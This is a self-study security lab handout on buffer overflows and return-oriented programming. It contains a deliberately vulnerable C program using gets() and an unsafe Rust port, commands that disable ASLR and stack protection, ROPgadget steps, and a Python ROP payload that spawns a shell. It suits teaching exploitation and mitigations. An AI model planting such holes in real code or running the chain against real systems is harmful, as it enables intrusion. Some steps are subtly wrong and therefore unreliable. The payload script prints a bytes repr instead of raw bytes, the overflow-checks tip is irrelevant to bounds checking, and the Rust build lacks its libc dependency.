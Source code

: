 # **Day 3 Lab – Defenses & Return-Oriented Programming**

## **Lab Objectives**

* Reproduce a buffer overflow exploit in C.
* Identify gadgets and build a minimal ROP chain.
* Port the vulnerable logic to `unsafe` Rust.
* Trace payload execution in `gdb`.
* Observe how ASLR, stack canaries, and DEP alter exploitation difficulty.

---

## **Step 0 – Lab Environment Prep**

This lab assumes:

* Linux machine (ASLR controllable via `/proc/sys/kernel/randomize_va_space`).
* `gcc`, `rustc`, `cargo`, `gdb` installed.
* `ROPgadget` installed:

  ```bash
  pip install ropgadget
  ```

> **Tip:** Do everything in a dedicated `day3-lab` folder.

---

## **Step 1 – Vulnerable C Program**

**`vuln.c`**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

void vuln() {
    char buf[64];
    printf("Enter some text: ");
    gets(buf); // <-- vulnerable: no bounds checking
}

int main() {
    vuln();
    printf("Goodbye!\n");
    return 0;
}
```

**Compile without stack protection and with executable stack:**

```bash
gcc -fno-stack-protector -z execstack -no-pie vuln.c -o vuln
```

---

## **Step 2 – Run & Inspect Memory Layout**

* **Disable ASLR** (for predictable addresses):

  ```bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
  ```
* Run and observe normal behavior:

  ```bash
  ./vuln
  ```
* Inspect memory mapping:

  ```bash
  cat /proc/$(pidof vuln)/maps
  ```

---

## **Step 3 – Finding Gadgets**

Use `ROPgadget` to find `pop rdi; ret` (for setting up function arguments):

```bash
ROPgadget --binary vuln | grep "pop rdi"
```

Note the address of `win()`:

```bash
nm vuln | grep win
```

---

## **Step 4 – Building a ROP Payload**

ROP chain:

1. `pop rdi; ret` — load pointer to `"/bin/sh"` into `rdi`.
2. Call `system()`.

**Exploit Script (Python)**:

```python
import struct

padding = b"A" * 72  # offset to RIP
pop_rdi = struct.pack("<Q", 0xdeadbeef) # replace with actual gadget address
bin_sh = struct.pack("<Q", next_addr)   # replace with "/bin/sh" address
system  = struct.pack("<Q", sys_addr)   # system() address

payload = padding + pop_rdi + bin_sh + system
print(payload)
```

Pipe into program:

```bash
python3 exploit.py | ./vuln
```

---

## **Step 5 – Porting to Unsafe Rust**

**`vuln.rs`**

```rust
use std::io::{self, Write};
use std::process::Command;

unsafe fn win() {
    Command::new("/bin/sh").status().unwrap();
}

unsafe fn vuln() {
    let mut buf = [0u8; 64];
    print!("Enter some text: ");
    io::stdout().flush().unwrap();
    // UNSAFE: direct pointer manipulation without bounds check
    let ptr = buf.as_mut_ptr();
    libc::gets(ptr as *mut i8);
}

fn main() {
    unsafe {
        vuln();
    }
    println!("Goodbye!");
}
```

**Compile:**

```bash
cargo new vuln_rust
cd vuln_rust
# Place code in src/main.rs
cargo build --release
```

> Use `RUSTFLAGS="-C overflow-checks=off"` if needed to disable checks.

---

## **Step 6 – Debugging with GDB**

Run in `gdb`:

```bash
gdb ./vuln
(gdb) disassemble win
(gdb) run
# Send payload and step through execution
```

---

## **Step 7 – Re-Enabling Defenses**

1. Turn ASLR back on:

   ```bash
   echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
   ```
2. Recompile with stack protector:

   ```bash
   gcc vuln.c -o vuln
   ```
3. Observe that exploitation fails (until mitigations are bypassed).

---

## **Reflection Prompts**

* How does ASLR specifically break our hardcoded ROP payload?
* How does a stack canary prevent the overwrite of return addresses?
* Why can ROP still work with DEP enabled?
* How might **Control Flow Integrity (CFI)** break our attack?

---

## **Deliverables for Self-Learners**

* Screenshot of successful shell spawn via ROP in C.
* Same result using the unsafe Rust version.
* Written answers to reflection prompts.
* (Bonus) A modified exploit that works with ASLR enabled via an info leak.

---

## **Mermaid Lab Flow**

```mermaid
flowchart TD
    A[Start Lab] --> B[Write Vulnerable C Program]
    B --> C[Compile Without Protections]
    C --> D[Disable ASLR]
    D --> E[Find Gadgets with ROPgadget]
    E --> F[Craft Payload in Python]
    F --> G[Test Exploit]
    G --> H[Port to Unsafe Rust]
    H --> I[Debug in gdb]
    I --> J[Re-enable Defenses & Retest]
    J --> K[Reflect & Document]
```
